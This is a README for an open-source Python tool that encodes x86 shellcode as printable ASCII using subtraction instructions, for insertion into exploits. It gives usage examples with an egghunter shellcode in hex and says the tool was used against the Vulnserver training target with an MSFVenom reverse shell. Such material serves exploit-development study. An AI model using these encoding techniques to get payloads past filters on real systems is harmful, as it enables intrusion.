





# Automatic ASCII Shellcode Subtraction Encoder
Generates printable ASCII subtraction encoded shellcode in assembly format for NASM and shellcode format for inserting into exploits.

# Installation
```
$ git clone https://github.com/EAugustoAnalysis/Automatic-ASCII-Shellcode-Subtraction-Encoder.git
$ cd Automatic-ASCII-Shellcode-Subtraction-Encoder
# pip3 install z3-solver
$ python3 encoder.py
```
Based on Marcos Valle's z3ncoder, which can ASCII encode a 32 bit address:
https://github.com/marcosValle/z3ncoder

# Usage
```
$ python3 encoder.py -s [shellcode] -b [badchars] -n [custom eax normalizer] -f [output file] -p -e [esp setup] -m
```


# Example
```
$ python3 encoder.py -s 6681caff0f42526a0258cd2e3c055a74efb8543030578bfaaf75eaaf75e7ffe7
$ python3 encoder.py -s 6681caff0f42526a0258cd2e3c055a74efb8543030578bfaaf75eaaf75e7ffe7 -f egghunter.asm
$ python3 encoder.py -s 6681caff0f42526a0258cd2e3c055a74efb8543030578bfaaf75eaaf75e7ffe7 -b "0x2f,0x41" -n "and eax,0x23232323\nand eax,0x42324543\nand eax, 0x44444444"
$ python3 encoder.py -s 6681caff0f42526a0258cd -p -m #Automatic nop padding enabled, shellcode generated
$ python3 encoder.py -s 6681caff0f42526a0258cd -a #Normalizes with sub instructions
$ python3 encoder.py -s 6681caff0f42526a0258cd -e "0x0x0178ffe9,0x0178ff6a" #Move the ESP from 0x0x0178ffe9 to 0x0178ff6a with subtraction
```


# Use Case
example.py, built with payloads generated by this encoder, uses encoded shellcode to exploit LTER in Vulnserver.

# Notes

Cool new features:
- Assembly will not print to terminal if output file specified.
- Shellcode generation! Done by hand but verified with ndisasm and works fine, I'm a bit frightened.

- Eax normalizer now automatically adjusts to remove user-defined badchars.

- You can automatically set up the stack using the -e flags, takes the math out of stack setup.

- The program no longer allows the algorithm to give inaccurate results! This is not a very likely scenario, but it's possible there are just too many badchars for your particular payload to work payload to work.


Shellcode length must be a multiple of 4 unless automatic padding is specified (-p). Nop padding can accomplish this. Shellcode must be in hex format.

- Used to exploit LTER in Vulnserver with shellcode containing null bytes (unencoded MSFVenom Reverse Shell).
- Confirmed working with most MSFVenom x86 encoders.

Known Compatibility Issues
- When used with MSFVenom Shikata_ga_nai encoder, has an unexplained tendency to overwrite the EIP. This may just be a debugger issue, as I have never encountered this problem using any other encoder or shellcode.

Default (immutable) badchars: ```0x00,0x01-0x20 (includes 0x0d and 0x0a),0x3a,0x3f,0x40,0x2e,0x80-0xFF```

# Coming Soon
- ~~Verbosity settings~~
- ~~Remove annoying extra byte that sometimes appears on verification sum~~ implemented
- ~~Automatic nop padding~~
implemented as an optional flag
- Alignment of ESP by a user defined offset
- ~~Proper processing of "0x00000000" lines~~
implemented
- ~~Custom badchars, (currently badchars are 00, 20, 0a, 0d, 3a, 3f, and any character that's not printable, valid ASCII)~~
implemented
- ~~Custom output files for assembly code~~
implemented
- ~~Custom normalizer~~
implemented

# Coming Eventually
- ~~Automatic badchar-based normalizer adjustment~~ implemented
- ~~Production of shellcode in insertable format as an option~~ implemented as flag
- ~~Return byte length of generated shellcode~~ implemented

